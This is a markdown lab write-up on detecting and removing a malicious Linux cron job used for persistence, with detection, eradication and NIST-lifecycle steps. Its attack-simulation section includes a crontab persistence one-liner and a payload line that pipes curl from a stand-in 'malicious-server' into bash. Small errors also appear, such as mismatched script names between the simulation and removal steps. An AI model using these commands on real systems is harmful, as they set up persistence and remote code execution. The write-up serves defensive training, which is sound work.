



# 🛡️ Day 13 – Incident Response: Malicious Cron Job Persistence (Linux) 

## 📌 Objective
Understand how attackers use cron jobs to maintain persistence on compromised Linux systems. This lab demonstrates how to simulate, detect, and remove a malicious cron job pointing to a bash script stored in the `/tmp` directory.

---

## 🗂️ Table of Contents

- [Lab Setup](#lab-setup)
- [Simulating the Attack](#simulating-the-attack)
- [Investigation Steps](#investigation-steps)
- [Screenshot](#-screenshot--cron-investigation)
- [Key Learnings](#key-learnings)
- [Conclusion](#conclusion)

---

## 📘 What is a Cron Job?
A cron job is a scheduled task that runs automatically at defined intervals on Unix/Linux systems. Attackers often use cron to re-execute payloads, reconnect to command-and-control servers, or maintain access to a compromised system.

## 🔄 Incident Response Lifecycle (NIST)

| **Phase**                | **Description**     |
|--------------------------------------|------------------------------|
| Preparation | Ensure system logging is active and users are trained to detect unusual cron behavior. |
| Detection and Analysis | Identify unauthorized cron entries and investigate associated scripts or IP addresses.|
| Containment, Eradication, Recovery | Stop the malicious cron activity, remove the script, and restore system configuration. |
| Post-Incident Activity | Document the incident, and set alerts for future cron job changes. |


### 🛠️Key Features:
Run commands automatically (e.g., every minute, daily, weekly)
Useful for backups, updates, monitoring scripts, etc.
Works in the background via the cron service


🧾 Format of a crontab Entry

*  *  *  *  *  command-to-run
│  │  │  │  │
│  │  │  │  └─── Day of the Week (0 - 7) (Sunday = 0 or 7)
│  │  │  └────── Month (1 - 12)
│  │  └───────── Day of Month (1 - 31)
│  └──────────── Hour (0 - 23)
└──────────────── Minute (0 - 59)


## 🛠️ Lab Setup

- **Target System**: Ubuntu Linux (Kali or Ubuntu VM)
- **Tools Used**: `crontab`, `find`, `grep`, `ps`, `rm`
- **Scenario**: A malicious script is dropped in `/tmp` and scheduled to execute every minute via cron.

---

## 🛠️ ⚠️ Scenario: A Malicious Cron Job is Running Every Minute
An attacker has added a cron job that silently runs a malicious script from /tmp every minute. Your job is to detect it, understand its behavior, and remove it safely.


### Simulating the Attack:
1. Attacker add a schedule cron job:
```bash
(crontab -l 2>/dev/null; echo "* * * * * /tmp/payload.sh" | crontab - 
```

2. Create Payload script
```bash
#!/bin/bash
curl http://malicious-server/payload.sh | bash
```

### 📸 Screenshot
<p align="center">
  
</p> <p align="center"><em>Simulate Incident - Malicious Script</em></p>

---

## 🧪 Step-by-Step Investigation

### Step 1. Detect Suspicious Cron Jobs
- Make sure cron is installed and running:
```bash 
crontab -l
grep CRON /var/log/syslog
``` 
📖 Reference
🧾 Format of a crontab Entry
*  *  *  *  *  command-to-run
│  │  │  │  │
│  │  │  │  └─── Day of the Week (0 - 7) (Sunday = 0 or 7)
│  │  │  └────── Month (1 - 12)
│  │  └───────── Day of Month (1 - 31)
│  └──────────── Hour (0 - 23)
└──────────────── Minute (0 - 59)


- Search cron directories for unauthorized jobs:
```bash
grep -r "/tmp/" /etc/cron* /var/spool/cron/crontabs
```

- Review logs to confirm execution:
```bash
cat /tmp/.cron.log
```

- Analyze the Malicious script:
```
cat /tmp/payload.sh
```

### 📸 Screenshot
<p align="center">
  
</p> <p align="center"><em>Detection and Analysis</em></p>


### Step 2. Containment, Eradication, and Recovery
- Remove the malicious cron entry:
```
crontab -l | grep -v "malicious.sh" | crontab -
```

 - Delete the malicious script and its output:
 ```bash
rm -f /tmp/malicious.sh /tmp/.cron.log
```

- Restart the cron service: 
```bash
sudo systemctl restart cron
```

### Step 4. Post-Incident Activity
- Document the following:
- When the cron job was added
- What the script was doing
- Any signs of lateral movement or download activity
- Recommendations:
- Restrict cron job access to authorized users only
- Enable cron integrity checks
- Set up alerts for new cron entries (using auditd or inotify)

### 📸 Screenshot
<p align="center">
  
</p> <p align="center"><em>Containment & Eradication</em></p>

---

## 🧠 Key Learnings
- ✅  Simulated attacker persistence via cron job
- ✅ Identified malicious jobs using crontab -l and log analysis
- ✅ Analyzed and removed bash script in /tmp
- ✅ Reviewed /var/log/syslog for cron execution history
- ✅ Practiced post-incident cleanup to restore system integrity

---

## 🎯 Conclusion
- Malicious cron jobs are a common attacker persistence technique in Linux systems. In this lab, I learned to identify suspicious scheduled tasks, investigate associated payloads, and apply basic remediation using standard Linux tools.
